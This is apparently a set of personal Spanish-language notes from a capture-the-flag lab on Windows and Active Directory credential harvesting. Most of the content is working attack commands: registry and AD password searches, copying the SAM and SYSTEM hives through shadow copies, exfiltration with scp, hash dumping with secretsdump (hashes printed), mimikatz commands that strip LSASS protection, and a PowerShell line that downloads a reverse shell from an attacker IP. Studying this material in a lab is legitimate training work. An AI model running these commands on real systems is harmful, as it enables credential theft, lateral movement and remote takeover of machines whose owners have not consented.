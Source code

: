 
Machine IP: MACHINE_IP            Username: thm         Password: Passw0rd!


rdesktop -u thm -p Passw0rd! <IP_o_dominio>


xfreerdp /u:thm /p:Passw0rd! /v:10.201.52.15 /dynamic-resolution

## Como ejemplo de un comando de historial, un comando de PowerShell guarda los comandos ejecutados en un archivo de historial en un perfil de usuario, en la siguiente ruta: 

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


##  reg query que mencionas se utiliza para buscar contraseñas almacenadas en el registro de Windows (Registry). Es una técnica común en auditorías de seguridad o pruebas de penetración para encontrar credenciales guardadas de forma insegura. 


- reg query: Consulta el registro de Windows.
- HKLM o HKCU:
- HKLM (HKEY_LOCAL_MACHINE): Contiene configuraciones globales del sistema.
- HKCU (HKEY_CURRENT_USER): Contiene configuraciones específicas del usuario actual.
- /f password: Busca la cadena "password" (no distingue mayúsculas/minúsculas).
- /t REG_SZ: Filtra solo valores de tipo cadena (REG_SZ).
- /s: Realiza una búsqueda recursiva en todas las subclaves.



c:\Users\user> reg query HKLM /f password /t REG_SZ /s #OR

C:\Users\user> reg query HKCU /f password /t REG_SZ /s




a) Buscar en HKEY_LOCAL_MACHINE (HKLM)

reg query HKLM /f "flag" /t REG_SZ /s


    HKLM: Clave del registro que almacena configuraciones globales del sistema.

    /f "flag": Busca la cadena exacta "flag" (no distingue mayúsculas/minúsculas).

    /t REG_SZ: Filtra solo valores de tipo cadena (texto).

    /s: Búsqueda recursiva en todas las subclaves.

b) Buscar en HKEY_CURRENT_USER (HKCU)
cmd
reg query HKCU /f "flag" /t REG_SZ /s





reg query HKLM /f "flag" /t REG_SZ /s


password:  7tyh4ckm3



# Enumerar Usuarios y Verificar Descripciones
En AD, a veces las contraseñas se guardan accidentalmente en el campo description (descripción).
Puedes enumerarlo con estos métodos:

net user /domain




# Método 2: Con PowerShell (Más detallado)
powershell
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description -ne $null } | Format-Table Name,Description
Filtra usuarios con descripciones no vacías.

Si hay un usuario llamado "victim", revisa su descripción.

# Método 3: Búsqueda Directa de Contraseñas
powershell

Get-ADUser -Filter {Description -like "*password*"} -Properties * | Select-Object DistinguishedName, SamAccountName, Description



Import-Module ActiveDirectory
Get-ADUser -Filter * -Properties * | Select-Object DistinguishedName, SamAccountName, Description





Obenert el HASH NTLM

# usaremos wmic para crear una instantánea de volumen.
 cd

privilege::debug
token::elevate
lsadump::sam



wmic shadowcopy call create Volume='C:\'



IEX(New-Object Net.WebClient).DownloadString('http://10.8.163.249:8000/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.163.249:8000 -Port 4444



curl -u http://10.8.163.249:8000/shell.php -o C:\xampp\htdocs\shell.php 




wmic shadowcopy call create Volume='C:\'

    Executing (Win32_ShadowCopy)->create()
    Method execution successful.
    Out Parameters:
    instance of __PARAMETERS
    {
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
    };


vssadmin list shadows



copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

        1 file(s) copied.



copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.






reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg


reg save HKLM\system C:\users\Administrator\Desktop\system-reg


scp * kali@10.8.163.249:/home/kali/.


└─$ impacket-secretsdump -sam sam-reg -system system-reg LOCAL  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Downloads/CredentialsHarvesting]
└─$ 








smb://10.201.52.15/SYSVOL/
smb://10.201.52.15/NETLOGON/


















cd C:\Tools\Mimikatz\mimikatz.exe
!+
!processprotect /process:lsass.exe /remove
privilege::debug
sekurlsa::logonpasswords